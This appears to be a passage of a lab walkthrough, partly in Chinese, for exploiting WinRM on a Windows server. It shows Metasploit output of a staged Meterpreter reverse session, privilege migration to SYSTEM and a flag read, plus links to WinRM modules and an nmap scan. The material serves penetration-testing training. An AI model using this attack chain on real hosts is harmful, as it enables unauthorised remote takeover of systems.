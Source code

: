 ```
[*] Command Stager progress -  88.31% done (90024/101936 bytes)
[*] Command Stager progress -  90.32% done (92070/101936 bytes)
[*] Command Stager progress -  92.33% done (94116/101936 bytes)
[*] Command Stager progress -  94.34% done (96162/101936 bytes)
[*] Command Stager progress -  96.34% done (98208/101936 bytes)
[*] Command Stager progress -  98.35% done (100252/101936 bytes)
[*] Sending stage (176195 bytes) to 10.0.28.36
[*] Meterpreter session 1 opened (10.10.16.4:4444 -> 10.0.28.36:49751) at 2022-09-17 19:41:07 +0530
[*] Session ID 1 (10.10.16.4:4444 -> 10.0.28.36:49751) processing InitialAutoRunScript 'post/windows/manage/priv_migrate'
[*] Current session process is katzx.exe (3612) as: SERVER\Administrator
[*] Session is Admin but not System.
[*] Will attempt to migrate to specified System level process.
[-] Could not migrate to services.exe.
[-] Could not migrate to wininit.exe.
[*] Trying svchost.exe (896)
[+] Successfully migrated to svchost.exe (896) as: NT AUTHORITY\SYSTEM
[*] nil
[*] Command Stager progress - 100.00% done (101936/101936 bytes)

meterpreter > sysinfo
Computer        : SERVER
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > cat c:\\flag.txt
3c716f95616eec677a7078f92657a230
```

## 解决方案
此实验室的解决方案可在以下手册中找到： https://assets.ine.com/labs/ad-manuals/walkthrough-2026.pdf

[WinRM Login Utility](https://www.rapid7.com/db/modules/auxiliary/scanner/winrm/winrm_login/)

[WinRM Authentication Method Detection](https://www.rapid7.com/db/modules/auxiliary/scanner/winrm/winrm_auth_methods/)

[WinRM Command Runner](https://www.rapid7.com/db/modules/auxiliary/scanner/winrm/winrm_cmd/)

[WinRM Script Exec Remote Code Execution](https://www.rapid7.com/db/modules/exploit/windows/winrm/winrm_script_exec/)

[远程连接的身份验证](https://learn.microsoft.com/zh-cn/windows/win32/winrm/authentication-for-remote-connections)

## 参照解决方案
```
root@attackdefense:~# nmap --top-port 7000 10.0.28.36
Starting Nmap 7.70 ( https://nmap.org ) at 2022-09-17 20:00 IST
Nmap scan report for 10.0.28.36
Host is up (0.0030s latency).
Not shown: 6995 closed ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

```